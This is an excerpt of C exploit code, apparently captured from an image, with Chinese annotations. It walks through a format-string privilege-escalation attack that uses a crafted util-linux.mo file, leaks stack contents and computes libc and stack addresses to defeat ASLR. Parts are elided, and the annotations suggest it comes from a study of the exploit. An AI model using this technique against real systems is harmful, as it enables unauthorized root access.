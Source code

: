 ```c
      result=waitForTriggerPipeOpen(secondPhaseTriggerPipePathname);
      [...]
      escalationPhase++;
    }

// Wait at most 10 seconds for IO.
    result=poll(pollFdList, 1, 10000);
    [...]
// Perform the IO operations without blocking.
    if(pollFdList[0].revents&(POLLIN|POLLHUP)) {
      result=read(
          pollFdList[0].fd, readBuffer+readDataLength,
          sizeof(readBuffer)-readDataLength);
      [...]
      readDataLength+=result;

// Handle the data depending on escalation phase.
      int moveLength=0;
      switch(escalationPhase) {
        case 0: // Initial sync: read A*8 preamble.		// 阶段 0，读取我们精心构造的 util-linux.mo 文件中的格式化字符串。成功写入 8*'A' 的 preamble
          [...]
          char *preambleStart=memmem(readBuffer, readDataLength,
              "AAAAAAAA", 8);	// 查找内存，设置 preambleStart
          [...]
// We found, what we are looking for. Start reading the stack.
          escalationPhase++;	// 阶段加 1 => case 1
          moveLength=preambleStart-readBuffer+8;
        case 1: // Read the stack.		// 阶段 1，利用格式化字符串读出栈数据，计算出 libc 等有用的地址以对付 ASLR
// Consume stack data until or local array is full.
          while(moveLength+16<=readDataLength) {	// 读取栈数据直到装满
            result=sscanf(readBuffer+moveLength, "%016lx",
                (int*)(stackData+stackDataBytes));
            [...]
            moveLength+=sizeof(long)*2;
            stackDataBytes+=sizeof(long);
// See if we reached end of stack dump already.
            if(stackDataBytes==sizeof(stackData))
              break;
          }
          if(stackDataBytes!=sizeof(stackData))		// 重复 case 1 直到此条件不成立，即所有数据已经读完
            break;

// All data read, use it to prepare the content for the next phase.
          fprintf(stderr, "Stack content received, calculating next phase\n");

          int *exploitOffsets=(int*)osReleaseExploitData[3];	// 从读到的栈数据中获得各种有用的地址

// This is the address, where source Pointer is pointing to.
          void *sourcePointerTarget=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARGV]];
// This is the stack address source for the target pointer.
          void *sourcePointerLocation=sourcePointerTarget-0xd0;

          void *targetPointerTarget=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARG0]];
// This is the stack address of the libc start function return
// pointer.
          void *libcStartFunctionReturnAddressSource=sourcePointerLocation-0x10;
          fprintf(stderr, "Found source address location %p pointing to target address %p with value %p, libc offset is %p\n",
              sourcePointerLocation, sourcePointerTarget,
              targetPointerTarget, libcStartFunctionReturnAddressSource);
// So the libcStartFunctionReturnAddressSource is the lowest address
// to manipulate, targetPointerTarget+...
```